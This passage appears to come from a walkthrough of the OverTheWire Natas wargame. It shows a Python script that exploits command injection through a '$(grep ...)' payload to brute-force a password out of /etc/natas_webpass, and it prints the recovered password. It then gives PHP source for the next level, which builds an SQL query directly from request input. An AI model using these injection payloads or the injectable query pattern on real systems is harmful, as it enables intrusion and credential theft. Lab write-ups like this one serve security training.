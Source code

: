 ```python
for char in allchars:  

 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=$(grep ' + char + ' /etc/natas_webpass/natas17)Africans', auth=auth)  
   
 if 'Africans' not in r.text:  

  filteredchars = filteredchars + char  

  print(filteredchars)  
  
for i in range(32):  

 for char in filteredchars:  

  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)Africans', auth=auth)  
    
  if 'Africans' not in r.text:  

   passwd = passwd + char  

   print(passwd)  

   break
```

> 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

## 18.

```
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
```